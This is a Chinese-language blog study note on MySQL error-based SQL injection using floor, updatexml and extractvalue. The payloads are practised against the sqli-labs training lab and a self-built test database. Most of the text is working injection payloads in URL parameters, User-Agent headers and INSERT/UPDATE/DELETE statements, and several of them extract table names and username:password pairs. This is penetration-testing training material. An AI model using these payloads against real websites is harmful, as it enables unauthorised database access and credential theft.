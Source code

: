 # 06-mysql类型报错注入

  

# 1. SQL各种参数类型下的注入测试

- 数字型-sqlilabs less2   `x.php?id=1`
- 字符型-sqlilabs less1   `x.php?id=xiaodi`
- 搜索型-自写测试           `x.php?q=1`      （select * from table where name like '%xi%'）

**搞懂：**

1. 搞清楚为何要区分上面的类型
   数字的不带引号，字符型带符号，注意考虑干扰
   搜索型：模糊搜索
   计算机中搜索的通配符为`*`
   数据库中搜索的通配符为`%`






# 2. SQL各种报错方式下的注入测试

>此类报错注入旨在解决无回显下的注入测试
>注：MySQL 5.1.5版本后才包含`ExtractValue()`和`UpdateXML()`这2个函数

**参考资料：**
https://www.wandouip.com/t5i158282/
http://blog.sina.com.cn/s/blog_1450cc4c60102vraq.html


###### `floor`报错

sqlilabs less5

>报错注入有长度限制，所以concat有时候不行， 需要limit 或者还需要sub
>**payload:**

```
-- burp中注意空格问题（空格可以用+加号， 或者%20, 或者 /**/ 代替）
?id=1'+and+(select+1+from (select+count(*),concat(version(),floor(rand(0)*2))x+from+information_schema.tables+group+by+x)a)--+
?id=-1' and(select 1 from (select count(*),concat((select table_name from information_schema.tables limit 3,1),floor(rand(0)*2))x from information_schema.tables group by x)a)-- + 

?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x7e,floor(rand(0)*2)))-- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and (select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))) -- + 

-- 可以用burp批量跑 limit 0,1 的0这里。payload设置数字范围
```

###### `updatexml`报错

sqlilabs less5
updatexml()函数是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
?id=1' and 1=(updatexml(1,concat(0x3a,(select version())),1))--+
?id=1' and 1=(updatexml(1,concat(0x3a,(select table_name from information_schema.tables limit 0,1)),1))--+

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e), 1) -- + 

http://192.168.0.121:8080/Less-5/?id=1%27 and updatexml(1, concat(0x7e, (select concat_ws(0x3a, username,password) from security.users limit 0,1),0x7e), 1) -- + 
```

###### `extractvalue`报错

sqlilabs less5
extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数
**payload:**

```
id=1' and extractvalue(1,concat(0x7e,user()))--+
?id=1' and extractvalue(1, concat(0x5c,(select table_name from information_schema.tables limit 1)))--+

```





# 3.SQL各种查询方式下的注入测试

- select
- insert（注册，用户添加，发布文章）   Less-18

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
-- sql语句  ??? 对吗没验证，截图了
insert into users(username, passwd)  values('x' or updatexml(1,concat(0x3a,(  version() ),1)  or  '  ',  'psd');

--payload
User-Agent: 中                    x' or updatexml(1,concat(0x7e,(version())),1) or ' 

User-Agent: x' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables limit 0,1)),1) or ' 

自己练习增,删,改： updatexml和extra两个都实验
```

- delete（后台删除文章, 用户...）
- update （改密码，数据同步）
  通过以上查询方式与网站一个用的关系，可以由注入点产生的地方或者应用猜测到对方的SQL查询方式


**环境搭建**

> 自己搭建

利用上述报错注入语句进行查询模式注入测试

```
create database newdb;

use newdb;

create table users (
    id int(3) not null auto_increment,
    username varchar(20) not null,
    passowrd varchar(20) not null,
    primary key(id)
);

insert into users values(1,'janes','Eyre');


```

> 注意使用场景，在什么情况下用到  


**插件：**
`mysql监控-Seay代码审计系统`        查看执行了哪些语句



>报错注入有长度限制:32位, 如果长度超出会显示不全.
>解决方案: substr((),1,1) 递进截取依次 (select substr(concat(username,0x3a,password), 1,10) from users limit 0,1)



###### 三种查询方式对应的报错注入测试

**floor报错演示Payload**

```sql
insert into users(id,username,passowrd) values(1,'Olivia' or (select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x;
) or '','Nervo');

update users set passowrd='Nicky' or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a) or '' where id=2;

delete from users where id=1 or (select 1 from(select count(*),concat( floor(rand(0)*2),0x7e,(database()),0x7e)x from information_schema.character_sets group by x)a)

```

**updatexml报错演示Payload**

```
insert into users(id,username,passowrd) values(2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or '','Nervo');

update user set passowrd='Nicky' or  updatexml(1,concat(0x7e,(version())),0) or '' where id=2 and username='Nervo';

delete from users where id=2 or updatexml(1,concat(0x7e,(version())),0) or '';

```

**extractvalue报错演示Payload**

```sql
insert into users(id,username,password) values(2,'Olivia' or extractvalue(1,concat(0x7e,database())) or '','Nervo');

update users set passowrd='Nicky' or extractvalue(1,concat(0x7e,database())) or '';

delete from users where id=1 or extractvalue(1,concat(0x7e,database())) or '';

```

>参考：https://www.cnblogs.com/babers/articles/7252401.html

**Notes:**

>delete，insert，update语句存在sql注入，扫描工具常规扫描不能获取到（没有权限，前提要登录状态下/登录后按钮的点击事件工具里面不能自动点击）， 所以：**只能手工注入**

**比如场景：**   注册/会员中心/删除文章/更新编辑文章       -->抓包：数据包地址+id参数 ： 手工测试

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/06-mysql%E7%B1%BB%E5%9E%8B%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/  

